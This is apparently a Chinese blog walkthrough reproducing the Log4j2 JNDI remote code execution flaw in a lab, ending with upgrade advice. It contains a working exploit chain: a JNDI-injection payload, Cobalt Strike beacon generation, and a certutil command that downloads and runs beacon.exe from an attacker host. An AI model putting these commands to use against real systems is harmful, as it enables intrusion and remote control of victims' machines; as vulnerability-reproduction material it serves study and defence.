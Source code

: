 # Log4j2 RCE漏洞复现

<!--more-->
## 前言
Apache Log4j2是一款优秀的Java日志记录框架。近日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证， Apache Struts2，Apache Solr， Apache Druid， Apache Flink等均受影响。

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-1.png)



### 漏洞评级
|影响产品 | 漏洞类型 | 漏洞评级|
| --- | --- | --- |
| Apache Log4j | 远程代码执行漏洞 | 严重 |


### 漏洞复现

首先去[GitHub](https://github.com/y35uishere/apache-log4j-poc.git)下载漏洞poc代码环境，使用IDEA加载项目文件

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-2.png)

打开项目文件src/main/java/log4j
在其中添加一行代码

```java
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-3.png)  

接着去[GitHub](https://github.com/welk1n/JNDI-Injection-Exploit/releases)上下载*JNDI*注入工具  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-4.png)



### 生成EXP

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A "192.168.31.201"
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-5.png)


将生成的EXP代码复制到漏洞POC代码中  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-6.png)

### 运行POC
点击IDEA工具栏*运行*  
![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-7.png)  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-8.png)  


成功弹出计算器！漏洞利用成功！  

### 反弹Shell上线CS

运行CobaltStrike teamserver  

```bash
teamserver.bat 192.168.31.201 123456
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-9.png)  

打开CobaltStrike连接  

新建监听器保存  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-10.png)  


点击*攻击* --> *生成后门* --> *Windows可执行程序Stageless*  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-11.png)  

选择生成的监听器，输出格式exe  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-12.png)  

点击保存  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-13.png)  

### 启动Web服务

在生成的exe payload目录执行：  

```
python -m http.server 8080
```

浏览器访问验证  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-14.png)  

### 构造CS上线payload

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "certutil -urlcache -split -f http://192.168.31.201:8080/beacon.exe C:\Users\a.exe&&C:\Users\a.exe" -A "192.168.31.201"
```

将生成好的payload粘贴到POC代码中  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-15.png)  

点击运行



![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-16.png)

成功上线！

### 演示视频

{{< bilibili BV1sD4y1F7vc >}}

### 漏洞缓解措施

（1）尽快升级至最新版本

https://github.com/apache/logging-log4j2/ ;  

尽快升级Apache Log4j2所有相关应用到最新的log4j-2.15.0-rc2版本

https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

(2)安装杀毒软件更新最新补丁程序

### 总结

本篇文章介绍了Apache Log4j2 远程代码执行漏洞的风险及漏洞利用过程，以简单直观的过程告知用户其危害以及防护措施。



### 相关链接

https://mp.weixin.qq.com/s/AuBchaUvFw2pisVw6rNX5A



https://github.com/y35uishere/apache-log4j-poc



https://github.com/welk1n/JNDI-Injection-Exploit


